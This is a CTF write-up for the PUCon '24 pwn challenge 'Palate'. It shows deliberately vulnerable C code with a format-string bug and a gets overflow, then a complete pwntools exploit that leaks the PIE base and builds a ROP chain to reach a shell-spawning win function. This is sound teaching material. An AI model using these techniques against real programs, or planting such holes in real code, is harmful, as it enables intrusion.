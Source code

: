 ```yaml
---
title: PUCon' 24 - Userspace - Palate
date: '2024-2-17'
tags: ['pucon', 'userspace', 'ctf', 'pwn', 'pie-bypass', 'printf-leak', 'ret2win']
draft: false
summary: Utilizing Format String Vulnerability to leak the address of PIE and then a simple Ret2Win with args.
---
```


## Challenge Description

![alt text](/static/writeups/pucon24/image-25.png)

## Solution

The challenge was very simple and I managed to solve it in under 10 minutes (and also 🩸). In this challenge, we were provided with the source code i.e.:

```c:ret2win_pie.c
#include<stdio.h>
#include<stdlib.h>

// gcc ret2win_pie.c -o ret2win_pie -fno-stack-protector

__attribute__((constructor))
void ignore_me(){
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
}

void win(long arg1){
	char *cmd = "/bin/sh";

	if (arg1 == 0xdeadbeefcafebabe){
		puts("Congrats!!!");
		execve(cmd, NULL, NULL);
	} 

	else
		puts("Forgot ROP. That's sad :<");
}

int main(int argc, char **argv, char **environ){
	char shot[0x60];

	puts("Aim and hit the bull's eye");
	fgets(shot, sizeof(shot), stdin);
	printf(shot);

	puts("Sad you missed it. Try one more time");
	gets(shot);
}
```

Okay, so, `(thankfully)`, the challenge was not one-shot as I am VERY VERY bad with format strings. We are given a fsb, that we can use to leak the addresses from the stack and then, a simple `gets` buffer overflow to jump to `win`, whilst also providing the argument i.e. `0xdeadbeefcafebabe`.

## Leaking the PIE-base

The exploit was fairly simple. When messing around format strings, I wrote a simple cli tool in python and made a function that I very often use that generates format string patterns for me. You can find the script on this [link](https://gist.github.com/TheFlash2k/2ee4650c3fc850caceb558ef82fa9bd6) (do leave a star if you like it ;))

So, the exploit for this part was fairly, simple.

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

def create_fmt(start: int, end: int = 0, atleast: int = 10, max_len: int = -1, with_index: bool = False, specifier: str = "p", seperator: str = '|') -> bytes:
    end = start+atleast if end == 0 else end
    fmt = "{seperator}%{i}${specifier}" if not with_index else "{seperator}{i}=%{i}${specifier}"
    rt = ""
    for i in range(start, end+1): rt += fmt.format(i=i, specifier=specifier, seperator=seperator)
    if max_len <= 0: return rt.encode()
    rt = seperator.join(rt[:max_len].split(seperator)[:-1]) if rt[:max_len][-1] != specifier else rt[:max_len]
    return rt.encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")


fmt = create_fmt(1, 30, with_index=True)
io.sendlineafter(b"eye", fmt)

io.interactive()
```

Now, on running this exploit:

![alt text](/static/writeups/pucon24/image-26.png)

We passed in `30`, but the stdout only printed `uptil` 12. Let's attach GDB, and see what exactly is memory mapping as we need a `PIE` leak.

![alt text](/static/writeups/pucon24/image-27.png)

Now, what we need is a leak that corresponds to PIE, i.e. `0x56xxxxxxxx`, so. Let's change the function call:

```diff
- fmt = create_fmt(1, 30, with_index=True)
+ fmt = create_fmt(13, 22, with_index=True)
```

![alt text](/static/writeups/pucon24/image-28.png)

Let's increase this:

```diff
- fmt = create_fmt(13, 22, with_index=True)
+ fmt = create_fmt(23, 30, with_index=True)
```

![alt text](/static/writeups/pucon24/image-29.png)

Now, looking at these addresses, we can see that, the address at `27th` position corresponds to what looks like `PIE` leak. Let's see this address in GDB.

![alt text](/static/writeups/pucon24/image-30.png)

This address corresponds to the beginning of the main function.

> *NOTE*: During the compeition, I was using my laptop that had the latest version of Arch with latest libc, for this tutorial, I am using Ubuntu 20.04, and the server was also using the latest ubuntu version, so, on my laptop the offset I got was `25` and that syncronized with the remote instance. The leak was for `main` so that was constant, so; instead of `27`, I will be using `25` as my offset in all of my payloads.

So, now, we have a pie-leak. Let's align our elf as well so we can use pwntools' power easily:

```py:exploit.py
fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)
io.interactive()
```

## Finding the offset

Well, we've done this thousands of time, so, i'll just skim through this, pass random data to the first input, send cyclic pattern to the second input and check the offset:

![alt text](/static/writeups/pucon24/image-31.png)

The offset came out to be `104`. So, let's note it down.

## Ret2Win

Now, I firstly thought of just jumping past the `arg1 == 0xdeadbeefcafebabe` check however, the `cmd` was declared before this meaning, even if I could jump, I wouldn't be able to have the correct argument in the rdi register to be passed to the `execve` syscall. So, the payload for this was simple. I used `ROP` from pwntools

```py:exploit.py
rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)
```

Running this, I got the shell.

![alt text](/static/writeups/pucon24/image-33.png)

Final exploit that I used was:

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)

rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)

io.interactive()
```

Running this exploit against remote:

![alt text](/static/writeups/pucon24/image-34.png)

